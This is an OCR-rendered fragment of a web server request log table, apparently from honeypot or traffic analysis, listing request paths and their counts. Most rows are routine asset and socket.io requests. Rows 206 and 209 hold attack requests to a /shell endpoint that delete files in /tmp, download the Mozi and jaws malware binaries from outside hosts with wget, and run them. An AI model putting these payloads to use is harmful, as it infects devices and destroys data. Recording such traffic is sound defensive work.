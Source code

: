 | 204 |                     1 | GET /js/jquery-ui.mainControllers.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 205 |                     1 | GET /socket.io/1/?t=1741542965961 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 206 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 207 |                     1 | GET /socket.io/1/?t=1741543966856 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 208 |                     1 | GET /socket.io/1/?t=1741544069251 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 209 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 210 |                     1 | GET /login/signin.css HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 211 |                     1 | GET /socket.io/1/?t=1741547486384 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 212 |                     1 | GET /css/spacer.gif HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |